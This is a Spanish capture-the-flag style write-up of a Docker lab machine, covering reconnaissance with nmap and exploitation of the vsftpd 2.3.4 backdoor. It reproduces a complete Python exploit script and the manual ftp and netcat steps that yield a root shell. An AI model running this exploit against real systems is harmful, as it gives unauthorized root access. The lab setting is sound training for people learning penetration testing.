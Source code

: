 ## LEVANTAMOS EL DOCKER 

Una vez levantado el docker nos dice que la ip de la máquina victima es :
```bash
172.17.0.2
```
comprobamos si tenemos trazabilidad con la misma lanzando un ping

```bash
 ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.034 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.034/0.034/0.034/0.000 ms
```

Nos dice que se ha transmitido un paquete, recibido uno y perdido cero, tenemos trazabilidad

## FASE DE RECONOCIMIENTO
 Con nmap vamos a ver los puertos que tiene abiertos, los servicios que corren en los mismos y la versión para ver si hay alguna vulnerabilidad

 ```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Vemos un puerto 21 que corre ftp con su versión "vsftpd 2.3.4", al ver que se ha lanzado el script ftp-anom y
su respuesta  got code 500 "OOPS: cannot change directory:/var/ftp" me hace sospechar que esta versión puede ser vulnerable.


## FASE INTRUSIÓN

Hago una busqueda rápida y encuentro este exploit para esa version:
```bash
https://github.com/Hellsender01/vsftpd_2.3.4_Exploit/blob/main/exploit.py
```
```bash
#!/usr/bin/python3

from pwn import *
from sys import exit
from time import sleep

class ExploitFTP:
	def __init__(self,ip,port=21):
		self.ip = ip
		self.port = port
		self.p = log.progress("")

	def trigger_backdoor(self):
		self.p.status("Checking Version...")
		io = remote(self.ip,self.port)
		io.recvuntil(b"vsFTPd ")
		version = (io.recvuntil(b")")[:-1]).decode()
		if version != "2.3.4":
			self.p.failure("Version 2.3.4 Not Found!!!")
			exit()
		else:
			self.p.status("Triggering Backdoor....")
			io.sendline(b"USER hello:)")
			io.sendline(b"PASS hello123")
			io.close()

	def get_shell(self):
		self.p.status("Connecting To Backdoor...")
		sleep(1)
		io = remote(self.ip, 6200)
		self.p.success("Got Shell!!!")
		io.interactive()
		io.close()

if __name__ == "__main__":
	if len(sys.argv) < 2 or len(sys.argv) > 3:
		error(f"Usage: {sys.argv[0]} IP PORT(optional)")

	if len(sys.argv) == 3:
		exploit = ExploitFTP(sys.argv[1],sys.argv[2])
	else:
		exploit = ExploitFTP(sys.argv[1])

	exploit.trigger_backdoor()
	exploit.get_shell()
```

vamos a explicar un poco lo que hace

En esta parte:
```
else:
    self.p.status("Triggering Backdoor....")
    io.sendline(b"USER hello:)")
    io.sendline(b"PASS hello123")
    io.close()
```

Envia un usuario malicioso: "hello:)" y un pass: "hello123" y en teoría abre un backdoor

y en esta parte:

```
def get_shell(self):
    self.p.status("Connecting To Backdoor...")
    sleep(1)
    io = remote(self.ip, 6200)  # Se conecta al puerto 6200
    self.p.success("Got Shell!!!")
    io.interactive()
    io.close()
```
 Se conecta al puerto 6200 que es dónde ha abierto la backdoor, vamos a hacerlo de forma manual

 nos conectamos por ftp:
 ```bash
ftp 172.17.0.2
```
introducimos el user:
```bash
hello:)
```
y luego el pass
```bash
hola123
```
hacemos de nuevo un escaneo de puertos:
```bash
sudo nmap -sS -Pn --min-rate 5000 -p- --open 172.17.0.2
```
```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
6200/tcp open  lm-x
```
En teoria nos ha abierto el backdoorr en el puerto 6200 y nos vamos a intentar conectar con nc
```bash
 nc 172.17.0.2 6200
```
 probamos si la conexión tiene exito:
 ```bash
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
y estamos dentro como root una máquina sencilla que nos recuerda que hay que mirar siempre las vulnerabilidades de las versions




